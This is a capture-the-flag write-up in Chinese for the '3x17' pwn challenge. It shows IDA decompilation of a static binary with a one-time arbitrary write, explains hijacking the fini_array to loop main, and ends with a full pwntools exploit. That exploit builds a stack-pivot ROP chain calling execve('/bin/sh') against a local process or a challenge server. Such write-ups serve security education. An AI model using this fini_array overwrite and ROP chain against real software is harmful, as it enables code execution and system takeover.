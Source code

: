 # 3x17

## ida

```c
void __fastcall __noreturn start(__int64 a1, __int64 a2, int a3)
{
  __int64 v3; // rax
  int v4; // esi
  __int64 v5; // [rsp-8h] [rbp-8h] BYREF
  void *retaddr; // [rsp+0h] [rbp+0h] BYREF

  v4 = v5;
  v5 = v3;
  sub_401EB0(
    (unsigned int)main,
    v4,
    (unsigned int)&retaddr,
    (unsigned int)sub_4028D0,
    (unsigned int)libc_fini,
    a3,
    (__int64)&v5);
  __halt();
}

int __cdecl main(int argc, const char **argv, const char **envp)
{
  int result; // eax
  char *v4; // [rsp+8h] [rbp-28h]
  char buf[24]; // [rsp+10h] [rbp-20h] BYREF
  unsigned __int64 v6; // [rsp+28h] [rbp-8h]

  v6 = __readfsqword(0x28u);
  result = (unsigned __int8)++byte_4B9330;
  if ( byte_4B9330 == 1 )
  {
    sub_446EC0(1u, "addr:", 5uLL);
    sub_446E20(0, buf, 0x18uLL);
    v4 = (char *)(int)sub_40EE70(buf);
    sub_446EC0(1u, "data:", 5uLL);
    sub_446E20(0, v4, 0x18uLL);
    result = 0;
  }
  if ( __readfsqword(0x28u) != v6 )
    sub_44A3E0();
  return result;
```

[Linux x86 Program Start Up](https://niebelungen-d.top/2020/10/13/Linux-x86-Program-Start-Up/)

是静态链接程序，查看`start`函数，发现其调用了三个函数，第一个就是`main`函数，而最后一个就是`libc_fini`函数。

在`main`中实现了任意地址写，但只能输入一次。我们打算采用系统调用的方式`get shell`，在静态链接程序中，`gadget`很充足。

为此，我们要布置好ROP链。为了能多次输入我们修改`fini_arry`数组使其不断的调用`main`，虽然进入输入有条件，但是因为是不断地调用，所以会发生溢出，达到条件让我们输入。

```assembly
.text:0000000000402960 libc_fini       proc near               ; DATA XREF: start+F↑o
.text:0000000000402960 ; __unwind {
.text:0000000000402960                 push    rbp
.text:0000000000402961                 lea     rax, unk_4B4100
.text:0000000000402968                 lea     rbp, off_4B40F0
.text:000000000040296F                 push    rbx
.text:0000000000402970                 sub     rax, rbp
.text:0000000000402973                 sub     rsp, 8
.text:0000000000402977                 sar     rax, 3
.text:000000000040297B                 jz      short loc_402996
.text:000000000040297D                 lea     rbx, [rax-1]
.text:0000000000402981                 nop     dword ptr [rax+00000000h]
.text:0000000000402988
.text:0000000000402988 loc_402988:                             ; CODE XREF: libc_fini+34↓j
.text:0000000000402988                 call    qword ptr [rbp+rbx*8+0]
```

这里`lea rbp, off_4B40F0`是将数组的地址当作rbp，而后面`call qword ptr [rbp+rbx*8+0]`就是相当于调用数组中的函数。所以我们通过这个将栈迁移到`0x4B4100`的位置。所以在这里进行ROP的构造。

## exp

```python
from pwn import *
from LibcSearcher import LibcSearcher

leak = lambda name,addr: log.success('{:#x}'.format(name,addr))
context.log_level="DEBUG"
context.arch="amd64"

local=1
binary='./3x17'
#gdb.attach(p)
if local:
	p=process(binary)
else:
	p=remote('220.249.52.133',32446)

elf = ELF(binary,checksec=False)

def write(addr,data):    
	p.sendafter('addr:',str(addr))
	p.sendafter('data:',data)

libc_fini=0x0402960
fini_arry=0x04B40F0
main_addr=0x0401B6D

pop_rax=0x041e4af
pop_rdi=0x0401696
pop_rbx=0x0401e0b
pop_rdx=0x0446e35
pop_rsi=0x0406c30
syscall=0x04022b4
leave_ret=0x0401c4b
sh_addr=0x04B41aa
fake_stack=0x04B4100
gdb.attach(p)
write(fini_arry,p64(libc_fini)+p64(main_addr))
write(sh_addr,'/bin/sh\x00')
write(fake_stack,p64(pop_rax)+p64(0x3b))
write(fake_stack+0x10,p64(pop_rdi)+p64(sh_addr))
write(fake_stack+0x20,p64(pop_rsi)+p64(0))
write(fake_stack+0x30,p64(pop_rdx)+p64(0))
write(fake_stack+0x40,p64(syscall))
write(fini_arry,p64(leave_ret))

p.interactive()
```

